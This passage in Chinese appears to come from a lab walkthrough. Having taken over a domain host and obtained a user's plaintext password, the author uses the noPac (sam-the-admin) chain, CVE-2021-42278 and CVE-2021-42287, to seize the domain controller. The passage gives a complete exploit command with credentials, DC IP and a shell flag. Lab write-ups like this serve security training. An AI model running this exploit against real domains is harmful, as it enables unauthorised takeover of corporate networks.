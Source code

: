 [![](assets/1711556160-4b811b986a543edefb84ced56016c90e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230806205020-cd0723a0-3457-1.png)

现在我们控制了域内的主机，有一个域用户了，还有明文密码，满足了很多域漏洞的利用条件,我就不按照官方的操作了，居然要重启主机，它的中继攻击利用条件太苛刻了，实战很难碰上：

### noPac

这个其实是两个漏洞的组合利用，流行是说法是NoPAC,另一种是sam-the-admin，是CVE-2021-42278和CVE-2021-42287的组合拳，利用也很简单，跑一下脚本就打下域控了,利用条件就是要拿到一个用户的账号密码，

```plain
proxychains python3 sam_the_admin.py holo.live/watamet:Nothingtoworry! -dc-ip 10.200.107.30  -shell
```
